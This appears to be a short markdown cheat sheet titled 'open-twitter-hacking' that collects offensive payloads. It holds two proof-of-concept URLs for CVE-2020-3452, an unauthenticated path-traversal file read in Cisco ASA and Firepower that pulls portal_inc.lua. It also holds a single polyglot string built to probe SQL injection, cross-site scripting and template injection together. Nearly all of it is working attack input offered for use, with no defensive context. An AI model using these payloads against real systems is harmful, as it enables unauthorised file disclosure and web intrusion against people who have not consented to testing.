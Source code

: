# open-twitter-hacking

### CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower
```
Here is POC of CVE-2020-3452, unauthenticated file read in Cisco ASA & Cisco Firepower.
For example to read "/+CSCOE+/portal_inc.lua" file.
https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```
```
POC #2: 
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```
### Test SQLi + XSS + SSTI with the same payload use
```
'"><svg/onload=prompt(5);>{{1234*6543}}
```
